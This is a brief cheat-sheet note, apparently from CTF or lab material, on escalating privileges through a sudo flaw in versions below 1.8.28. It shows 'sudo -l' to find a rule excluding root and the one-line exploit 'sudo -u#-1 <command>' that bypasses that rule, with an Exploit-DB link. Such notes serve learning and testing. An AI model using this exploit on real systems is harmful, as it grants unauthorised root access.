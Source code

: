 - - -
If your Sudo Version is less than < 1.8.28
Exploit Link : [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)
- - -
## piyush ALL=(ALL:!root) NOPASSWD: ALL : 

```sh
sudo -l
```
![Imgur](https://i.imgur.com/jaEOjnR.png)

## Exploitation : 

```sh
sudo -u#-1 <command>
```
![Imgur](https://i.imgur.com/3JnyaKU.png)


- - -


